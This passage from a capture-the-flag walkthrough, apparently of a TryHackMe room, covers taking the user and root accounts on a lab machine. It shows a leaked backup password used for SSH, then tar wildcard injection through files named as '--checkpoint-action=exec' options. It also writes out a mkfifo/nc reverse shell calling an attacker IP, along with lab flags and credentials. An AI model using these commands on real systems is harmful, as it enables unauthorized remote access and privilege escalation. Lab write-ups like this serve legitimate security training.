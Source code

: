~~~
www-data@cmess:/opt$ cat /opt/.password.bak
cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6
www-data@cmess:/opt$ 
~~~

Connect to SSH with `andre:UQfsdCB7aAP6` and get the user flag.

~~~
andre@cmess:~$ cat user.txt 
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
~~~

User flag: `thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}`

# #2 - Escalate your privileges and obtain root.txt    

Now, let's get `root`. There is an interesting crontab job running every 2 minutes, executed by `root`:

~~~
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
~~~

As you can see, this command is using the wildcard (`*`) to select all files located under `/home/andre/backup` and compress them with `tar`. Having a look at GTFOBins (https://gtfobins.github.io/gtfobins/tar/) tells us that we can take advantage from this mistake.

Indeed, because of the wildcard, we can create files that will be interpreted as options for the `tar` command, to ultimately execute something similar to this:

~~~
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
~~~

Let's do it:

~~~
$ cat > /home/andre/backup/rev << EOF
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.54 4444 >/tmp/f
EOF
$ echo "" > "/home/andre/backup/--checkpoint=1"
$ echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rev"
~~~

Now, let's open a listener and wait for the next batch.

~~~
$ rlwrap nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.185.45.
Ncat: Connection from 10.10.185.45:52344.
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
thm{9f85b7fdeb2cf96985bf5761a93546a2}
~~~

Root flag: `thm{9f85b7fdeb2cf96985bf5761a93546a2}`

